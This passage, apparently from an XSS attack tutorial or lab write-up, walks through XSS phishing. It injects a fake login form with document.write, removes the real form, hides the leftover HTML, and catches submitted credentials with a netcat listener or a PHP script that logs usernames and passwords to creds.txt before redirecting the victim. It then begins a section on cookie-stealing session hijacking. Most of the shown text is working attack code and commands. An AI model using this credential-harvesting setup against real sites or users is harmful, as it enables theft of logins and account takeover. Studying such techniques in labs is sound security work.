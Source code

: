 `document.getElementById('urlform').remove();`

Add that after your form in the same script:

<pre><script>
document.write('...form...');document.getElementById('urlform').remove();
</script></pre>

Add <!-- at the end to hide leftover HTML:

`...</script><!--`

**🧲 Step 4: Catch the Credentials**

Option 1: Quick Test with Netcat

`sudo nc -lvnp 80`

When someone submits the form, credentials show up like:

`GET /?username=admin&password=pass123`

**Option 2: Save Credentials with PHP**

Create this index.php file:

<pre><?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    file_put_contents("creds.txt", "User: {$_GET['username']} | Pass: {$_GET['password']}\n", FILE_APPEND);
    header("Location: http://SERVER_IP/phishing/index.php");
    exit();
}
?></pre>

Then:

<pre>mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #At this step we wrote our index.php file
sudo php -S 0.0.0.0:80</pre>

**🧪 Test It**

- Visit the final payload URL
- Log in using dummy data
- Check creds.txt — you’ll see:

`User: test | Pass: test`

# Session Hijacking

**🛡️ Session Hijacking (Cookie Stealing)**

- Websites use cookies to keep users logged in.
- If someone steals your cookie, they can access your session without needing your password.

**🎯 Goal**
